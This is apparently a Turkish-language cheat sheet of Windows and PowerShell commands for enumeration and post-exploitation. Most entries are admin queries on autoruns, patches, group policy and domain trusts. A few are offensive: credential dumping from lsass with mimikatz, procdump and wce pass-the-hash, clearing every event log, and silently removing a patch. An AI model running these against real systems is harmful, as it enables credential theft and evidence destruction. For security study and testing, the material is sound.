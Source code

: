 •	reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
•	reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce
•	reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
•	reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
•	reg query HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
•	reg query HKCU\Software\Wow6432Npde\Microsoft\Windows\CurrentVersion\RunOnce
•	dir “C:\Documents and Settings\All Users\Start Menu\Programs\Startup”
•	dir “C:\Documents and Settings\%username%\Start Menu\Programs\Startup”
•	Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
•	Get-ItemProperty -Path ‘Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run’
•	Get-ChildItem “C:\Users\All Users\Start Menu\Programs\Startup”
Güncelleme & Yama işlemleri
•	wusa /uninstall /kb:2744842 /quiet /norestart
•	wmic qfe where HotFixID=”KB3011780″ get Caption, HotFixID
•	wmic qfe list full /format:htable > Sonuc.html
•	dism /online /get-packages
•	Get-WmiObject -Class “win32_quickfixengineering” | Select-Object -Property “Description”, “HotfixID”, @{Name=”InstalledOn”; Expression={([DateTime]($_.InstalledOn)).ToLocalTime()}}
Log işlemleri
•	wevtutil qe Application /c:10 /rd:true /f:text
•	for /F “tokens=*” %G in (‘wevtutil.exe el’) DO (wevtutil.exe cl “%G”)
Başka bir kullanici gibi komut çalıştırma
•	runas /env /user:SIRKET\Levent.Altayli cmd
•	psexec -s cmd.exe
Oturumu kilitleme
•	rundll32.exe user32.dll, LockWorkStation
Dosya kopyalama
•	copy D:\netcat.exe C:\Users
Parolaları RAM üzerinden elde etme
•	mimikatz > privilege::debug > sekurlsa::logonPasswords
•	mimikatz “sekurlsa::logonPasswords full” exit
•	procdump -accepteula -ma lsass.exe lsass.dmp
o	mimikatz > sekurlsa::minidump lsass.dmp > sekurlsa::logonPasswords
•	wce -w
•	wce -s WORKGROUP:Administrator:<LM>:<NTLM>
Grup ilkesi işlemleri
•	gpupdate /force
•	gpresult /R
•	gpresult /z
•	gpresult /H Politika.html
•	gpresult /USER mert.altuntas/SCOPE COMPUTER /Z
Posta işlemleri
•	dsquery user -name “user name”|dsget user -samid -email -display
•	Get-Mailbox | fl name, emailaddresses
•	Get-QADUser -SizeLimit 0 -Enabled -Email * | Select-Object DisplayName,Email
Etki alanı güven ilişkileri
•	nltest /domain_trusts –> Tüm güven ilişkilerini listeler
•	nltest /trusted_domains–> Tüm güven ilişkilerini listeler
•	nltest /dcname:Sirket –> Belli bir etki alanındaki PDC rolündeki sunucuyu getirir.
•	nltest /dclist:Sirket –> Belli bir etki alanındaki DC rolündeki sunucuları getirir.
•	nltest /server:DC /trusted_domains
•	([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).Domains –> Forest (Orman) içerisindeki tüm etki alanları listelenir.
•	([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships() –> Mevcut etki alanı için tüm güven ilişkileri (Parent-Child, 2 yönlü vs) listelenir.
•	([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext(‘Forest’, ‘Sirket.local’)))).GetAllTrustRelationships() –> Tüm güven ilişkilerini listeler.
•	netdom query /domain Sirket.local TRUST –>  Tüm güven ilişkilerini listeler. TRUST yerine FSMO, DC, PDC, OU, WORKSTATION ile farklı veriler de listelenebilir.
Oturum açan etki alanı hesabının bilgileri
•	Get-EventLog security 4624 -newest 10000 | Where-Object{$_.Message -like ‘*Galip.Tekinli*’}| format-list Message > GalipTekinliHesabininActigiOturumBilgileri.txt
